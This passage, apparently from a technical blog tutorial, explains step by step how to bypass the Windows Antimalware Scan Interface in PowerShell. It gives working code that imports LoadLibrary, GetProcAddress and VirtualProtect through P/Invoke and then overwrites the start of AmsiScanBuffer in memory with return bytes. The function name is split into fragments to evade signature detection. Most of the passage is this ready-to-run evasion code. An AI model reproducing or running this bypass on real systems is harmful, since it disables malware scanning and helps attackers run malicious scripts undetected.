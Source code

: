 - [**VirtualProtect:**](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) To make the address region writable as by default it's RX. We need to make it writable as well so that we can overwrite the instructions and later we'll again make it to RX from RWX.

To make use of these API calls in powershell, we will first define the methods in C# using pinvoke (which allows us to call unmanaged APIs in managed code) and then load the c# into the powershell session using add-type.

```c#
$code = @"
using System;
using System.Runtime.InteropServices;

public class WinApi {
	
	[DllImport("kernel32")]
	public static extern IntPtr LoadLibrary(string name);
	
	[DllImport("kernel32")]
	public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
	
	[DllImport("kernel32")]
	public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out int lpflOldProtect);
	
}"@
```

In the above code, we are first loading the required namespaces. `System.Runtime.InteropServices` is where pinvoke implemented. Then we are defining the signature for each native API, I have taken them from pinvoke.net. We need to load the above C# code inside powershell session using Add-Type.

```c#
Add-Type $code
```

Now we can use those API calls from inside powershell session.

```c#
$amsiDll = [WinApi]::LoadLibrary("amsi.dll")
$asbAddr = [WinApi]::GetProcAddress($amsiDll, "Ams"+"iScan"+"Buf"+"fer")
$ret = [Byte[]] ( 0xc3, 0x80, 0x07, 0x00,0x57, 0xb8 )
$out = 0

[WinApi]::VirtualProtect($asbAddr, [uint32]$ret.Length, 0x40, [ref] $out)
[System.Runtime.InteropServices.Marshal]::Copy($ret, 0, $asbAddr, $ret.Length)
[WinApi]::VirtualProtect($asbAddr, [uint32]$ret.Length, $out, [ref] $null)
```

In the above code, first we are getting the handle to the amsi.dll library then calling GetProcAddress to get the address to the AmsiScanBuffer function inside amsi.dll. Then we are defining a variable named $ret which contains the bytes which will overwrite the very first instructions of AmsiScanBuffer, $out is what will contain the old permission of the memory region returned by VirtualProtect then we are calling VirtualProtect to change the permission of AmsiScanBuffer region to RWX(0x40) and then using Marshal.Copy to copy bytes from managed memory region to unmanaged and then calling VirtualProtect again to change back the permission of AmsiScanBuffer to previous one which we had stored in $out.

